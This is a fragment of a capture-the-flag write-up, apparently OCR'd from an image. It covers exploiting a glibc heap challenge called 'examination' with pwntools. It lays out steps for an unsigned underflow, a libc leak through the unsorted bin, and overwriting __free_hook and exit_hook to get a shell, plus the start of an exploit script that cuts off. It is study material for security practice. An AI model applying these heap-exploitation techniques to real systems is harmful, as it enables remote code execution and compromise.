 ```python
# ===Step-8: malloc 0x310 from tcache(0x310), &chunk(0x310)==exit_hook, cover exit_hook to onegadget
choice(6)  # malloc 0x310 get exit_hook
p.sendline(p64(onegadget))  # overwrite exit_hook to onegadget

p.interactive()
```





# exp: unsorted bin + free hook

> info指0x20大小的chunk，是0x30大小的stu结构体的第一个地址所指向的结构体，review指的是comment

核心在于放一个chunk到unsorted bin，然后拿回一个chunk，该chunk可以控制另一stu的`0x30, 0x20`的chunk，利用stu.info.p2review这个指针，以及review的可编辑，覆盖free hook为system

1. unsigned underflow: calloc 3个stu，stu0的review chk size=`0x390`自始至终只有stu0是pray set的，stu2是为了避免top chunk合并。give score，stu0的score整数下溢
2. increase chk size: 利用任意地址加一，让stu0的review chk size=`0x490`。此时这个chunk实际上已经包括了stu1的`0x30,0x20`的chunk
3. to unsorted bin: free掉`0x490`的chk (stu0.review)到unsorted bin，为了后面calloc回来的chk可以编辑stu1的数据，先calloc一个stu (new stu2)，从unsorted bin拿`0x30,0x20`的chk
4. leak libc: 给new stu2 calloc一个`0x390`的chk，这个chk的区域会覆盖住stu1的`0x30,0x20` chk。覆盖stu1.p2info到一个可控制的地址，在这个地址上构造一个fake info，fake_info.p2review指向unsorted bin里的chk的地址，然后就可以输出stu1.review达到输出unsorted bin上libc地址的目的
5. cover free hook to system, get shell: 同样利用stu2.review，控制stu1.p2info指向fake info，fake info.p2review指向 `&__free_hook`，编辑stu1.review改`__free_hook`的值为`&system`，同时stu2.review=`"/bin/sh\0"`。调用`free(&stu2.review)`变成了 `system(&"/bin/sh\0")`

```python
from pwn import *
context.arch = "amd64"
context.log_level = "debug"
IP = "172.0.0.0"
PORT = 123
DEBUG = 1

if DEBUG:
    p = process("./examination")
    base = p.libs()[p._cwd + p.argv[0].decode().strip(".")]  # fix bytes str error in py3.9
    success("base:", base, p.libs())
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    p = remote(IP, PORT)  # *ctf{ret2sch00l_ret2examination_0nce_ag@1n!}
    libc = ELF("./libc-2.31.so")


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass
def lg(s): return log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))


def debug(cmd=""):
    gdb.attach(p, cmd)


def dd():
```